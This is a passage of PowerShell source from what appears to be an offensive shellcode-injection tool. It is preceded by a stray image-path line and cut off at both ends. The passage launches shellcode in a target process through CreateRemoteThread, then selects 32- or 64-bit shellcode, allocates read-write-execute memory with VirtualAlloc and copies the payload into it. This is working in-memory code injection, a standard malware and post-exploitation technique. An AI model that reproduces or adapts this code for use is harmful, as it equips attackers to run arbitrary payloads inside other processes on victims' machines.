         # Execute shellcode as a remote thread
        $ThreadHandle = $CreateRemoteThread.Invoke($hProcess, [IntPtr]::Zero, 0, $RemoteStubAddr, $RemoteMemAddr, 0, [IntPtr]::Zero)
        
        if (!$ThreadHandle)
        {
            Throw "Unable to launch remote thread in PID: $ProcessID"
        }

        # Close process handle
        $CloseHandle.Invoke($hProcess) | Out-Null

        Write-Verbose 'Shellcode injection complete!'
    }

    function Local:Inject-LocalShellcode
    {
        if ($PowerShell32bit) {
            if ($Shellcode32.Length -eq 0)
            {
                Throw 'No shellcode was placed in the $Shellcode32 variable!'
                return
            }
            
            $Shellcode = $Shellcode32
            Write-Verbose 'Using 32-bit shellcode.'
        }
        else
        {
            if ($Shellcode64.Length -eq 0)
            {
                Throw 'No shellcode was placed in the $Shellcode64 variable!'
                return
            }
            
            $Shellcode = $Shellcode64
            Write-Verbose 'Using 64-bit shellcode.'
        }
    
        # Allocate RWX memory for the shellcode
        $BaseAddress = $VirtualAlloc.Invoke([IntPtr]::Zero, $Shellcode.Length + 1, 0x3000, 0x40) # (Reserve|Commit, RWX)
        if (!$BaseAddress)
        {
            Throw "Unable to allocate shellcode memory in PID: $ProcessID"
        }
        
        Write-Verbose "Shellcode memory reserved at 0x$($BaseAddress.ToString("X$([IntPtr]::Size*2)"))"

        # Copy shellcode to RWX buffer
        [System.Runtime.InteropServices.Marshal]::Copy($Shellcode, 0, $BaseAddress, $Shellcode.Length)
        